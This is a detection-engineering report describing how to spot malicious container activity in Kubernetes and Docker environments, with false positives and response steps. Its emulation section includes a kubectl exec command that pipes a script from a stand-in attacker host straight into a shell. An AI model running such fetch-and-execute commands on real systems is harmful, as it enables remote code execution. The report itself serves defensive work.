 # Alerting & Detection Strategy (ADS) Report

## Goal
Detect adversarial attempts to bypass security monitoring using containers by identifying anomalous container activities that suggest malicious behavior.

## Categorization
- **MITRE ATT&CK Mapping:** T1203 - Exploitation for Client Execution
- **Tactic / Kill Chain Phases:** Execution
- **Platforms:** Linux, Windows, macOS
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1203)

## Strategy Abstract
This detection strategy focuses on identifying unusual patterns of container activity that may indicate adversarial exploitation attempts. The approach utilizes data sources such as container orchestration logs (e.g., Kubernetes events), host-level process monitoring, and network traffic analysis to detect anomalies. Key patterns analyzed include unexpected resource consumption spikes, unauthorized image pulls, and suspicious inter-container communication.

## Technical Context
Adversaries exploit containers by executing malicious code that can evade traditional security measures. In real-world scenarios, adversaries often use container orchestration platforms like Kubernetes to deploy hidden or disguised workloads. They may abuse misconfigurations or leverage privileged containers to escalate privileges on host systems.

### Adversary Emulation Details:
- **Sample Commands:** 
  - Launching a malicious Docker image: `docker run --rm -d mymaliciousimage`
  - Executing unauthorized scripts within Kubernetes pods: `kubectl exec <pod-name> -- /bin/sh -c 'curl http://attacker.com/malware.sh | sh'`

## Blind Spots and Assumptions
- **Limitations:** The strategy may not detect highly sophisticated evasion techniques that mimic benign container behavior.
- **Assumptions:** It assumes that standard monitoring tools are in place and configured to capture relevant logs and metrics.

## False Positives
Potential false positives include:
- Legitimate spikes in resource usage during peak operational times.
- Authorized, yet unusual, image pulls or pod deployments by trusted developers.
- Routine network communications between containers in microservices architectures.

## Priority
**High:** Containers are increasingly targeted due to their prevalence and the critical role they play in modern IT environments. Bypassing security monitoring can lead to significant data breaches and system compromises.

## Response
When an alert is triggered, analysts should:
1. Immediately isolate the affected container or pod.
2. Investigate logs for any unauthorized access or execution patterns.
3. Review network traffic associated with the container for signs of exfiltration.
4. Assess host-level impact and check for privilege escalation attempts.
5. Collaborate with development teams to understand recent changes that might explain anomalous behavior.

## Additional Resources
- **Kubernetes Security Best Practices:** [Link](https://kubernetes.io/docs/concepts/security/)
- **Docker Security Guidelines:** [Link](https://docs.docker.com/engine/security/)

---

This report outlines a comprehensive approach to detecting adversarial attempts using container-based exploitation, providing actionable insights for maintaining robust security postures in modern IT environments.